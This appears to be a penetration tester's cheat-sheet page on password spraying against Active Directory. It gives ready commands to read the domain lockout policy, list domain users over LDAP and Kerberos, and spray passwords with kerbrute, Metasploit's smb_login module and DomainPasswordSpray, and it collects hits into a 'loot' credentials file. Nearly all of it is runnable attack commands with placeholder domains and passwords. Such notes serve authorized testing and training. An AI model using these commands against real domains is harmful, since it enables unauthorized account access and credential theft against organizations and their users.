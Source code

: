 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |




## Get Domain Users



### Non-Authenticated

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via [RID Cycling](/pentest/infrastructure/ad/rid-cycling.md).



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
